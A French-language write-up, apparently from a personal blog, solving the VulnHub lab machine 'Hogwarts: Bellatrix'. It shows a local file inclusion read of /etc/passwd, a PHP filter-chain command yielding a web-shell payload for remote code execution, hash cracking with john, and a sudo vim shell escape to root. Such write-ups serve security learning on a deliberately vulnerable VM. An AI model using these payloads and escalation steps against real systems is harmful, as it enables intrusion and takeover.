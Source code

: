 ```yaml
---
title: "Solution du CTF Hogwarts: Bellatrix de VulnHub"
tags: [CTF, VulnHub]
---
```


Le CTF [Hogwarts: Bellatrix](https://vulnhub.com/entry/hogwarts-bellatrix,609/) est un boot2root que je qualifierais de facile. Il y a un peu de jeu de piste mais n'entre jamais dans le mauvais penchant du guessing.

```
Nmap scan report for 192.168.56.64
Host is up (0.00020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3p1 Ubuntu 1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4bcec75a9c1f8bcd4703086985c29149 (RSA)
|   256 a12aa8159904cc2a1ee35000f355c2cc (ECDSA)
|_  256 2cd3ec6f4f5b4ae0ea0ac30d2fcb7817 (ED25519)
80/tcp open  http    Apache httpd 2.4.46 ((Ubuntu))
|_http-title: AvadaKedavra
|_http-server-header: Apache/2.4.46 (Ubuntu)
```

Sur le site web, on trouve ce texte :

```
ikilledsiriusblackikilledsiriusblackikilledsiriusblackikilledsiriusblack

--- snip ---

ikilledsiriusblackikilledsiriusblackikilledsiriusblackikilledsiriusblack.php
```

et dans le code HTML de la page :

```html
    <!-- 
        Nah...this time there are no clues in the source code ... 
        o yeah, maybe I've already told you a directory .php? :)

    -->

/*

   $file = $_GET['file'];
   if(isset($file))
   {
       include("$file");
   }

*/
```

Effectivement je trouve un fichier `ikilledsiriusblack.php` qui semble en tout point identique à la page d'index sauf que si on lui passe le paramètre `file` (ex: `file=/etc/passwd`) on obtient la LFI annoncée :

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
--- snip ---
bellatrix:x:1000:1000:Bellatrix,,,:/home/bellatrix:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:127:65534::/run/sshd:/usr/sbin/nologin
lestrange:x:1001:1001::/home/lestrange:/bin/rbash
```

On peut déjà rermarquer la présence du `rbash` (restricted bash) comme login pour le compte `lestrange`.

Je ne perds plus mon temps à faire une injection dans un fichier de log, j'utilise directement la technique de chainage des filtres PHP avec [l'outil de Synacktiv](https://github.com/synacktiv/php_filter_chain_generator) :

```bash
python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]);?>'
```

Je passe le résultat en paramètre de `file` et il ne reste qu'à rajouter mon paramètre `cmd` pour avoir ma RCE.

Déjà sous la racine web je trouve des fichiers étonnants :

```bash
www-data@bellatrix:/var/www/html$ ls -alR
.:
total 732
drwxr-xr-x 3 root      root        4096 Nov 28  2020  .
drwxr-xr-x 3 root      root        4096 Nov 28  2020  ..
-rw-rw-r-- 1 bellatrix bellatrix 728806 Nov 27  2020  1c19c879fe8ef134c3e051c2d69c0c66.gif
drwxr-xr-x 2 root      root        4096 Nov 28  2020 'c2VjcmV0cw=='
-rw-rw-r-- 1 bellatrix bellatrix    151 Nov 28  2020  ikilledsiriusblack.php
-rw-rw-r-- 1 bellatrix bellatrix   1728 Nov 28  2020  index.php

'./c2VjcmV0cw==':
total 16
drwxr-xr-x 2 root root 4096 Nov 28  2020 .
drwxr-xr-x 3 root root 4096 Nov 28  2020 ..
-rw-r--r-- 1 root root 1237 Nov 28  2020 .secret.dic
-rw-r--r-- 1 root root  117 Nov 28  2020 Swordofgryffindor
```

Le fichier `.secret.dic` est une wordlist de 114 lignes contenant des noms ou mots en rapport avec la saga *Harry Potter*.

Le fichier `Swordofgryffindor` contient le hash pour le compte vu précédemment :

`lestrange:$6$1eIjsdebFF9/rsXH$NajEfDYUP7p/sqHdyOIFwNnltiRPwIU0L14a8zyQIdRUlAomDNrnRjTPN5Y/WirDnwMn698kIA5CV8NLdyGiY0`

Forcément ça ne prend pas long à casser et c'est l'une des caractéristiques des bons CTFs car entre passer une minute ou 2 jours à casser un mot de passe, il n'y a aucune différence au niveau des compétences requises, il suffit de savoir utiliser un outil :

```bash
$ ./john --wordlist=pass.txt hashes.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ihateharrypotter (lestrange)     
1g 0:00:00:00 DONE (2022-11-19 11:28) 9.090g/s 1036p/s 1036c/s 1036C/s gryffondor..wingardiumleviosa
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Une fois connecté on trouve une note dans un fichier `readme.txt` :

```bash
lestrange@bellatrix:~$ cat readme.txt
I WANT TO ESCAPE FROM THE PRISION OF AZKABAN

HAHAHAHHAHAHAHAHHAHAHAHHAHAHAHAHHAHAHAHHAHA!!!!

YOU WONT BE ABLE TO ME, POTTER!! I WAS AND STILL AM THE DARK LORD'S MOST 
LOYAL SERVANT.
```

L'utilisatrice a le droit d'exécuter une commande via sudo :

```bash
lestrange@bellatrix:~$ sudo -l
Coincidiendo entradas por defecto para lestrange en bellatrix:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario lestrange puede ejecutar los siguientes comandos en bellatrix:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
```

La technique est bien sûr d'échapper de vim avec `:!/bin/bash` qui nous donne les droits root :

```bash
lestrange@bellatrix:~$ sudo /usr/bin/vim

root@bellatrix:/home/lestrange# cd /root
root@bellatrix:~# ls
root.txt  script.sh  snap
root@bellatrix:~# cat root.txt
 ____       _ _       _        _      
 |  _ \     | | |     | |      (_)     
 | |_) | ___| | | __ _| |_ _ __ ___  __
 |  _ < / _ \ | |/ _` | __| '__| \ \/ /
 | |_) |  __/ | | (_| | |_| |  | |>  < 
 |____/ \___|_|_|\__,_|\__|_|  |_/_/\_\
  _               _                              
 | |             | |                             
 | |     ___  ___| |_ _ __ __ _ _ __   __ _  ___ 
 | |    / _ \/ __| __| '__/ _` | '_ \ / _` |/ _ \
 | |___|  __/\__ \ |_| | | (_| | | | | (_| |  __/
 |______\___||___/\__|_|  \__,_|_| |_|\__, |\___|
                                       __/ |     
                                      |___/ 

root{ead5a85a11ba466011fced308d460a76}
root@bellatrix:~# cat script.sh
#!/bin/bash

chmod 775 /var/log/auth.log

exit
```

On voit un script qui effectue un chmod sur `auth.log`, il était sans doute destiné à faciliter l'injection de code PHP pour la LFI.

Il y avait aussi un flag dans `/home/bellatrix`. La commande `cd` était restreinte mais les commandes `ls` et cat `non` donc il n'y avait pas de difficultées majeures à obtenir le flag.

*Publié le 19 novembre 2022*
